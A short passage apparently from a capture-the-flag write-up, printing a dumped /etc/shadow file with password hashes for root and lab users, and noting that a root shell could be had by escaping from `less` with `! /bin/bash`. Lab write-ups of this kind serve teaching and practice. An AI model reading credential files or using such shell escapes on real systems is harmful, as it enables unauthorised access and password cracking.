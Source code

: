 {% highlight bash %}
root:$6$m20VT7lw$172.XYFP3mb9Fbp/IgxPQJJKDgdOhg34jZD5sxVMIx3dKq.DBwv.mw3HgCmRd0QcN4TCzaUtmx4C5DvZaDioh0:15768:0:99999:7:::
daemon:*:15768:0:99999:7:::
bin:*:15768:0:99999:7:::
sys:*:15768:0:99999:7:::
lp:*:15768:0:99999:7:::
mail:*:15768:0:99999:7:::
news:*:15768:0:99999:7:::
uucp:*:15768:0:99999:7:::
proxy:*:15768:0:99999:7:::
www-data:*:15768:0:99999:7:::
backup:*:15768:0:99999:7:::
list:*:15768:0:99999:7:::
irc:*:15768:0:99999:7:::
gnats:*:15768:0:99999:7:::
nobody:*:15768:0:99999:7:::
libuuid:!:15768:0:99999:7:::
syslog:*:15768:0:99999:7:::
messagebus:*:15768:0:99999:7:::
reynard:$6$h54J.qxd$yL5md3J4dONwNl.36iA.mkcabQqRMmeZ0VFKxIVpXeNpfK.mvmYpYsx8W0Xq02zH8bqo2K.mkQzz55U2H5kUh1:15768:0:99999:7:::
anansi:$6$hblZftkV$vmZoctRs1nmcdQCk5gjlmcLUb18xvJa3efaU6cpw9hoOXC/kHupYqQ2qz5O.ekVE.SwMfvRnf.QcB1lyDGIPE1:15768:0:99999:7:::
puck:$6$A/mZxJX0$Zmgb3T6SAq.FxO1gEmbIcBF9Oi7q2eAi0TMMqOhg0pjdgDjBr0p2NBpIRqs4OIEZB4op6ueK888lhO7gc.27g1:15768:0:99999:7:::
{% endhighlight %}

Please note that the challenge was, for me and in this case, to get this file and to ignore the flag.
But, at this point, I could have just dropped a shell from `less` (`! /bin/bash`) and then enjoyed being `root`.
